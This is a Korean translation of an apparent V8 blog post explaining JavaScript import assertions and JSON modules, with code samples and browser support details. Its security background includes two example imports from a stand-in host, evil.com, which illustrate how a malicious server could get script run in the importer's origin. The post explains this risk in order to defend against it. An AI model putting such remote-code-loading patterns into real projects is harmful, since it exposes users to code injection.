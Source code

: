 ```yaml
---
title: "import assertions"
author: "Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), import assertions를 강하게 주장하는 임포터"
avatars: 
  - "dan-clark"
date: 2021-06-15
tags: 
  - ECMAScript
description: "import assertions를 통해 모듈 임포트 문에서 모듈 지정자와 함께 추가 정보를 포함할 수 있습니다"
tweet: ""
---
```


새로운 [import assertions](https://github.com/tc39/proposal-import-assertions) 기능을 사용하면 모듈 임포트 문에서 모듈 지정자와 함께 추가 정보를 포함할 수 있습니다. 이 기능의 초기 용도는 JSON 문서를 [JSON 모듈](https://github.com/tc39/proposal-json-modules)로 임포트할 수 있도록 하는 것입니다:

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## 배경: JSON 모듈과 MIME 타입

자연스러운 질문 중 하나는 JSON 모듈을 아래와 같이 간단히 임포트할 수는 없는지에 대한 것입니다:

```javascript
import json from './foo.json';
```

웹 플랫폼은 모듈 리소스를 실행하기 전에 해당 MIME 타입의 유효성을 검사하며, 이 이론적으로 이 MIME 타입을 사용하여 리소스를 JSON 또는 자바스크립트 모듈로 처리할지 결정할 수 있습니다.

그러나 MIME 타입만으로는 [보안 문제](https://github.com/w3c/webcomponents/issues/839)가 발생할 수 있습니다.

모듈은 교차 출처로 임포트될 수 있으며, 개발자는 외부 소스에서 JSON 모듈을 임포트할 수 있습니다. JSON이 적절히 정제된 경우에는 신뢰할 수 없는 외부에서도 기본적으로 안전하다고 간주할 수 있습니다. JSON을 임포트하면 스크립트를 실행하지 않기 때문입니다.

그러나, 서드파티 서버가 예기치 않은 자바스크립트 MIME 타입 및 악성 자바스크립트 페이로드로 응답하면 실제로 스크립트가 실행될 수 있습니다. 이로 인해 임포터의 도메인에서 코드가 실행될 수 있습니다.

```javascript
// evil.com이 자바스크립트 MIME 타입
// (예: `text/javascript`)으로 응답하면 JS 실행!
import data from 'https://evil.com/data.json';
```

파일 확장자는 모듈 타입을 결정하는 데 사용할 수 없습니다. 왜냐하면 [웹에서 콘텐츠 타입의 신뢰할 수 있는 지표가 아니기 때문입니다](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). 대신에, 우리는 import assertions를 사용하여 예상 모듈 타입을 지정하고 이러한 권한 상승 문제를 방지합니다.

개발자가 JSON 모듈을 임포트하려면, JSON이어야 한다고 지정하는 import assertion을 사용해야 합니다. 네트워크로부터 받은 MIME 타입이 예상 타입과 일치하지 않으면 임포트는 실패합니다:

```javascript
// evil.com이 JSON이 아닌 MIME 타입으로 응답하면 실패.
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## 동적 `import()`

또한 import assertions는 [동적 `import()`](https://v8.dev/features/dynamic-import#dynamic)에 새로운 두 번째 매개변수로 전달할 수 있습니다:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

JSON 콘텐츠는 모듈의 기본 익스포트이므로 `import()`에서 반환된 객체의 `default` 속성을 통해 참조됩니다.

## 결론

현재 import assertions의 유일한 지정 용도는 모듈 타입을 지정하는 것입니다. 그러나 이 기능은 임의의 키/값 assertion 쌍을 허용하도록 설계되었으므로, 향후 모듈 임포트를 제한하는 데 유용할 경우 추가로 활용 방법이 추가될 수 있습니다.

한편, 새로운 import assertions 문법을 사용한 JSON 모듈은 Chromium 91에서 기본적으로 사용할 수 있습니다. [CSS 모듈 스크립트](https://chromestatus.com/feature/5948572598009856) 또한 같은 모듈 타입 assertion 문법을 사용하여 곧 출시될 예정입니다.

## import assertions 지원

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
